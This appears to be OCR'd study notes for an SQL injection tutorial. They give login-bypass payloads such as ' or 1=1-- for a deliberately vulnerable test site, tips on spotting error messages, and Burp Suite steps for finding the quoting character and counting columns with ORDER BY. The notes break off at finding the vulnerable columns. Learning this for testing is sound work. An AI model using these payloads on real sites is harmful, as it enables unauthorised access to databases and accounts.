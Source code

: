 •	Then dash, dash, space bcz its means comment like // in JS to it makes after – will comment	
•	SELECT * FROM users WHERE username=”John” OR 1=1-- ” AND password=”Don123”
	John”-- 
•	Use if you know the username
•	That means its gives username john and after that everything is comment and condition
•	SELECT * FROM users WHERE username=”John”-- ” AND password=”Don123”
o	VulnWeb.com
	Payloades: Put in Username and Password
•	xyz” or 1=1-- 
•	xyz’ or 1=1--
•	test’ or 1=1--
•	admin' 
•	admin' # 
•	admin'/* 
•	' or 1=1-- 
•	' or 1=1# 
•	' or 1=1/* 
•	') or '1'='1-- 
•	') or C11=11—

•	TIP: HOW TO HUNT?
o	Whenever u put ‘,` or any other then if it shows error like, “SQL Syntax error” or something like “on line” that mean it’s vulnerable.

•	Using BurpSuit (Identify SQL Injection)
o	Craw every functionality in webapp
o	For GET /artists.php?artist=1
	Check out Content-Length: 6251
	SELECT * FROM artists WHERE artist=’john’
o	For GET /artists.php?artist=abc
	Content-Length: 4853
o	So first need to identify what characters they are using for enclosing the values like ‘, “, `
	artis=(1), artis=(‘1’), artis=(“1”), artis=“1”
	artist=’1\’  Error
o	For GET /artists.php?artist=1\
	Length: 4927
	Render  Warning: mysql_fetch_array() expects parameter 1 to be resource, boolean given in /hj/var/www/artists_php on line 62
	It means there could be a SQL injection.
o	We can also check errors by
	‘  Error
	‘-- Error (--space)
o	For artist=1’  Error
o	For artist=1’--+  Error (not using single quote)
o	For artist=1"--+  Error
o	For artist=1")--+  Error
o	For artist=1’)--+  Error
o	In this case they are not using any character to enclose the values
	For artist=1--+  No error (Normal result)
o	Also can try For artist[]=1
•	Find how many Parameters/Columns are there, Which Parameter is vuln.
o	Count Numbers of para.
	Common entry artist=1--+ (which is not giving the error)
	(suppose if no error for artist=1’--+ then put queries in artist1’+quer+--+)
	artist=1++--+
	Find Numbers for Columns
•	ORDER BY 1 (this is a query)
o	artist=1+ORDER+BY+1+--+
o	Increase number and check when error occurs.
o	artist=1+ORDER+BY+2+--+
o	artist=1+ORDER+BY+3+--+
o	Till 3 we are not getting errors (last value with no error)
o	Means the number of columns is 3
	Find Vulnerable columns 